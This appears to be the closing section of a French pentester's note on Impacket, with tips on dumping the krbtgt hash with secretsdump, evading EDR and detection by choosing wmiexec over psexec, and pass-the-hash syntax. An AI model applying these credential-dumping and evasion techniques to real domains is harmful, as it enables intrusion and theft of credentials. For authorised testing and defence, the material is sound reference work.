> [!tip] **-just-dc-user** : dump un seul compte sans charger tout le NTDS (`-just-dc-user krbtgt`). Ajoute `-use-vss` si l'EDR bloque l'accès au fichier.

> [!tip] **Prends le chemin le plus discret** : `wmiexec.py` (pas de fichier déposé) plutôt que `psexec.py` (service `PSEXESVC` très détecté) pour les premières commandes.

> [!warning] **Piège** : oublier le `:`** dans `-hashes :NTLM`. On peut mettre le LM vide : `-hashes :NT` suffit (LM `AAD3B435B51404EEAAD3B435B51404EE` inutile).

> [!warning] **Piège** : si le DNS ne résout pas la cible, passe `-target-ip <IP>` (et `-k` pour forcer Kerberos si un TGT est dans la ccache), sinon erreur d'adresse obscure.

> [!warning] **Piège** : sur les gros domaines, `secretsdump.py` sans `-just-dc-ntlm` peut saturer la mémoire et le réseau : privilégier le dump ciblé.

---

## References

- GitHub officiel : https://github.com/fortra/impacket
- Documentation : https://www.impacket.org/docs/
- Site officiel : https://www.impacket.org/
- The Hacker Recipes (AD) : https://www.thehacker.recipes/ad/movement/
- Wiki Impacket (exemples) : https://github.com/fortra/impacket/wiki

**Liens :** [[Outil - Impacket]] | [[Outil - Evil-WinRM]] | [[Outil - hashcat]] | [[Outil - BloodHound]] | [[Outil - CrackMapExec]] | [[Outil - Responder]] | [[Outil - mitm6]] | [[Outil - Mimikatz]] | [[Outil - Rubeus]] | [[Outil - Nmap]]


